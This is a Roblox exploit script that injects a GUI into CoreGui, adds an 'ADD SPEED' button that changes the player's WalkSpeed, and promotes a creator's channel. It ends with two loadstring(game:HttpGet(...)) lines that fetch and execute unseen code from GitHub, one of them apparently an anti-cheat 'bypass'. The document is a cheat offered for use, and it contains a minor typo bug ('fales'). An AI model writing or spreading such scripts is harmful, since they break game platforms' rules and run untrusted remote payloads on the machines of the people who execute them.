 local IMAGE = "rbxassetid://12209991869"

local Positions = UDim2.new(0.822025776, 0, 0.0401606411, 0)

local Sizes = UDim2.new(0, 76, 0, 70)

local KINGHUBMOBILE = Instance.new("ScreenGui")

local _100x100 = Instance.new("Frame")

local ImageButton = Instance.new("ImageButton")

KINGHUBMOBILE.Name = "DOORS"

KINGHUBMOBILE.Parent = game:WaitForChild("CoreGui")

KINGHUBMOBILE.ZIndexBehavior = Enum.ZIndexBehavior.Sibling

_100x100.Name = "100x100"

_100x100.Parent = KINGHUBMOBILE

_100x100.BackgroundColor3 = Color3.fromRGB(255, 255, 255)

_100x100.Position = Positions

_100x100.Size = UDim2.new(0, 76, 0, 70)

ImageButton.Parent = _100x100

ImageButton.BackgroundColor3 = Color3.fromRGB(255, 255, 255)

ImageButton.Size = Sizes

ImageButton.Image = IMAGE

ImageButton.MouseButton1Down:connect(function()
	local vim = game:service("VirtualInputManager")	vim:SendKeyEvent(true, "RightShift", false, game)
	local vim = game:service("VirtualInputManager")
	vim:SendKeyEvent(fales, "RightShift", false, game)
end)
-- Made By Yieviro92

game:GetService("StarterGui"):SetCore("SendNotification",{
    Title = "Script Loaded";
    Text = "SUB CHANNEL YIEVIRO92CREPPY";
    Duration = 100; 
})

local StarterGui = Instance.new("ScreenGui")
local Frame = Instance.new("Frame")
local UICorner = Instance.new("UICorner")
local TextButton = Instance.new("TextButton")
local UICorner_2 = Instance.new("UICorner")
local TextButton_2 = Instance.new("TextButton")
local UICorner_3 = Instance.new("UICorner")
local TextLabel = Instance.new("TextLabel")
local TextBox = Instance.new("TextBox")
local UICorner_4 = Instance.new("UICorner")
local TextLabel_2 = Instance.new("TextLabel")
local TextButton_3 = Instance.new("TextButton")
local UICorner_5 = Instance.new("UICorner")

--Propers

StarterGui.Name = "StarterGui"
StarterGui.Parent = game.CoreGui
StarterGui.ZIndexBehavior = Enum.ZIndexBehavior.Sibling

Frame.Parent = StarterGui
Frame.BackgroundColor3 = Color3.fromRGB(0, 0, 0)
Frame.BorderColor3 = Color3.fromRGB(255, 0, 0)
Frame.Position = UDim2.new(0.219810039, 0, 0.233396575, 0)
Frame.Size = UDim2.new(0.560379922, 0, 0.527514219, 0)
Frame.Visible = false
Frame.Active = true
Frame.Draggable = true

UICorner.Parent = Frame

TextButton.Parent = Frame
TextButton.BackgroundColor3 = Color3.fromRGB(255, 0, 0)
TextButton.Position = UDim2.new(0.0895883814, 0, 0.712230206, 0)
TextButton.Size = UDim2.new(0.343825668, 0, 0.172661871, 0)
TextButton.Font = Enum.Font.Cartoon
TextButton.Text = ""
TextButton.TextColor3 = Color3.fromRGB(255, 255, 255)
TextButton.TextScaled = true
TextButton.TextSize = 14.000
TextButton.TextWrapped = true

UICorner_2.Parent = TextButton

TextButton_2.Parent = Frame
TextButton_2.BackgroundColor3 = Color3.fromRGB(25, 255, 0)
TextButton_2.Position = UDim2.new(0.544794202, 0, 0.712230206, 0)
TextButton_2.Size = UDim2.new(0.343825668, 0, 0.172661871, 0)
TextButton_2.Font = Enum.Font.Cartoon
TextButton_2.Text = ""
TextButton_2.TextColor3 = Color3.fromRGB(255, 255, 255)
TextButton_2.TextScaled = true
TextButton_2.TextSize = 14.000
TextButton_2.TextWrapped = true

UICorner_3.Parent = TextButton_2

TextLabel.Parent = Frame
TextLabel.BackgroundColor3 = Color3.fromRGB(255, 255, 255)
TextLabel.BackgroundTransparency = 1.000
TextLabel.Size = UDim2.new(1, 0, 0.179856122, 0)
TextLabel.Font = Enum.Font.Cartoon
TextLabel.Text = ""
TextLabel.TextColor3 = Color3.fromRGB(255, 0, 0)
TextLabel.TextScaled = true
TextLabel.TextSize = 14.000
TextLabel.TextWrapped = true

TextBox.Parent = Frame
TextBox.BackgroundColor3 = Color3.fromRGB(255, 255, 255)
TextBox.Position = UDim2.new(0.256658584, 0, 0.323741019, 0)
TextBox.Size = UDim2.new(0.484261513, 0, 0.179856122, 0)
TextBox.Font = Enum.Font.Cartoon
TextBox.PlaceholderText = ""
TextBox.Text = "16"
TextBox.TextColor3 = Color3.fromRGB(97, 97, 97)
TextBox.TextScaled = true
TextBox.TextSize = 14.000
TextBox.TextWrapped = true

UICorner_4.Parent = TextBox

TextLabel_2.Parent = TextBox
TextLabel_2.BackgroundColor3 = Color3.fromRGB(255, 255, 255)
TextLabel_2.BackgroundTransparency = 1.000
TextLabel_2.Position = UDim2.new(0.0765053779, 0, 1, 0)
TextLabel_2.Size = UDim2.new(0, 106, 0, 27)
TextLabel_2.Font = Enum.Font.Cartoon
TextLabel_2.Text = "Numbers only"
TextLabel_2.TextColor3 = Color3.fromRGB(255, 0, 0)
TextLabel_2.TextScaled = true
TextLabel_2.TextSize = 14.000
TextLabel_2.TextWrapped = true

TextButton_3.Parent = StarterGui
TextButton_3.BackgroundColor3 = Color3.fromRGB(0, 0, 0)
TextButton_3.BorderColor3 = Color3.fromRGB(255, 0, 0)
TextButton_3.Position = UDim2.new(-0.000928521913, 0, 0.488205522, 0)
TextButton_3.Size = UDim2.new(0, 85, 0, 37)
TextButton_3.Font = Enum.Font.Cartoon
TextButton_3.Text = "ADD SPEED"
TextButton_3.TextColor3 = Color3.fromRGB(255, 0, 0)
TextButton_3.TextScaled = true
TextButton_3.TextSize = 14.000
TextButton_3.TextWrapped = true

UICorner_5.Parent = TextButton_3

-- Scripts:

local function CHCRPGN_fake_script() -- TextButton.LocalScript 
	local script = Instance.new('LocalScript', TextButton)
	script.Parent.MouseButton1Click:Connect(function()
		script.Parent.Parent.Visible = false
	end)	
end
coroutine.wrap(CHCRPGN_fake_script)()
local function YDDLQYT_fake_script() -- TextButton_2.LocalScript 
	local script = Instance.new('LocalScript', TextButton_2)
	local player = game.Players.LocalPlayer
	script.Parent.MouseButton1Click:Connect(function()
		wait(0.6)
		script.Parent.Parent.Visible = false
		game.Players.LocalPlayer.character.Humanoid.WalkSpeed = script.Parent.Parent.TextBox.Text
	end)
end
coroutine.wrap(YDDLQYT_fake_script)()
local function RZIFDD_fake_script() -- Frame.LocalScript 
	local script = Instance.new('LocalScript', Frame)
	local Frame = script.Parent
	Frame.Active = true
	Frame.Draggable = true
end
coroutine.wrap(RZIFDD_fake_script)()
local function RZJF_fake_script() -- TextButton_3.LocalScript 
	local script = Instance.new('LocalScript', TextButton_3)
	script.Parent.MouseButton1Click:Connect(function()
		script.Parent.Parent.Frame.Visible = true
	end)
end
coroutine.wrap(RZJF_fake_script)()
loadstring(game:HttpGet(("https://raw.githubusercontent.com/yieviro92creepy/Yedi5/main/Oo4"),true))()
loadstring(game:HttpGet('https://raw.githubusercontent.com/finngameandglitch/bypass/main/bypass'))()
